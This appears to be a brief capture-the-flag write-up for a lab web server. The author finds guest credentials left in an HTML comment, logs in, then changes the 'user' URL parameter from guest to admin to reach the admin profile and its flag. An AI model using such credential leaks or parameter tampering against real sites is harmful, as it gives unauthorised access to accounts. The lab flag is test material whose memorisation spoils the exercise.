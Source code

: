 # writeups

` <!-- use guest:guest credentials until registration is fixed -->`

I found that in login.php the main page of the website

I log into with guest:guest, I was connected with guest account

and then I got another one

`    <!-- admin account could be vulnerable, need to update -->`

so look a little the url

```
view-source:http://10.10.163.24/profile.php?user=guest
```

it seems like the page called the user adress, with the variable user
so why not trying to change the value, by setting "admin"

```
10.10.163.24/profile.php?user=admin
```
and it works,

```
Hi, admin. Welcome to your site. The flag is: flag{66be95c478473d91a5358f2440c7af1f}
```


END
